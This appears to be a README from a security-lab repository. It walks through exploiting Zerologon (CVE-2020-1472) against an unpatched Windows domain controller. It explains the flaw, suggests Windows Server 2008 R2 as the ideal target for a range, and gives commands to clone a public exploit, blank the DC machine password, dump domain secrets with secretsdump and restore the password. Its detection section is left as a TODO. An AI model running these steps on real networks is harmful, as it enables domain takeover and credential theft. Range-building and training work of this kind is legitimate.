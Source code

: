 # Zerologon (CVE-2020-1472)
## Summary

This vulnerability stems from a flaw in a cryptographic authentication scheme used by the Netlogon Remote Protocol, which among other things can be used to update computer passwords. This flaw allows attackers to impersonate any computer, including the domain controller itself, and execute remote procedure calls on their behalf. 

## Prerequisites

This exploit requires at least one DC to be set up and configured. The DC *must* not have the patch, i.e. install the DC from before August 11th, 2020, or attempt to delete all of the KB security updates which may not work. **Windows Server 2008 R2 SP1** requires an ESU license for the patch to apply, which is atypical, making this version the ideal target for configuring a range with this vulnerability.

## Setup

If the prerequisites have been met, then any Zerologon exploit should work out of the box.

## Execution

### Method 1 - Changing DC's Machine Account Password

Clone the repository at https://github.com/risksense/zerologon, by either downloading the zip file or running the following command:

```bash
git clone https://github.com/risksense/zerologon
```

If there are any issues, update or reinstall impacket. Then, in the same directory as the cloned repository, run the following command:

```bash
python3 set_empty_pw DC_NETBIOS_NAME DC_IP_ADDR
```

Then, the DC's machine accounts hash is set to `31d6cfe0d16ae931b73c59d7e0c089c0`, and the old hash should be printed to the screen, note this for later. This can be used with impacket's pass-the-hash functionality. I.e. dumping secret:

```bash
sudo secretsdump.py -just-dc -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_NETBIOS_NAME$@dc_ip_addr'
```

To reinstall the old machine password, run the following command:

```bash
python3 reinstall_original_pw.py DC_NETBIOS_NAME DC_IP_ADDR ORIG_NT_HASH
```

#### Indicators of Compromise

TODO
